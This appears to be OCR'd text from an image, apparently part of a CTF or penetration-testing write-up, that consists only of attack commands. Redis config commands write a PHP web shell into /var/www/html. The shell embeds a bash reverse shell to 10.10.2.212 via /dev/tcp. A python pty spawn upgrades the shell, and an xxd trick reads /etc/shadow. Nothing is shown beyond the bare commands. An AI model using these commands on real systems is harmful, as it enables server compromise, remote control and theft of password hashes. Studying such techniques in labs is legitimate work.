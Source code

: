 config set dir /var/www/html
python -c 'import pty; pty.spawn("/bin/bash")'

config set dbfilename shell.php
set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.10.2.212/5678 0>&1'\"); ?>"
save

LFILE=/etc/shadow
xxd "$LFILE" | xxd -r 
